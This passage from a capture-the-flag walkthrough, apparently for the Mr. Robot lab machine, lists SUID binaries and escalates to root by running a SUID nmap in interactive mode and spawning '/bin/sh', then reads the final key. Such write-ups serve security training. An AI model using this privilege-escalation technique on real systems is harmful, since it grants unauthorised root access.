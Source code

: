 # 5. Privilege Escalation Part 2

Our next step is getting root. I did a few standard things to check for attack vectors: check what groups `robot` is in, check `sudo` privileges, and lastly a quick search for SUID files.

```
robot@linux:~$ find / -perm /4000 2>/dev/null
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown
```

Most of these are pretty standard, but one of them stands out to me: `namp`. Because the SUID bit is set, whenever `nmap` is executed it runs as the root user. We can exploit this to become root outselves. One way we can do this is by entering `nmap`'s "interactive" mode, then executing arbitrary commands as root:

```
robot@linux:~$ nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !/bin/sh
!/bin/sh
# whoami
whoami
root
```

We are root now!

# 6. Root

We now have access to `/root` and can read the final flag!

```
# ls -l /root
total 4
-rw-r--r-- 1 root root  0 Nov 13  2015 firstboot_done
-r-------- 1 root root 33 Nov 13  2015 key-3-of-3.txt
# cat /root/key-3-of-3.txt
<redacted>
```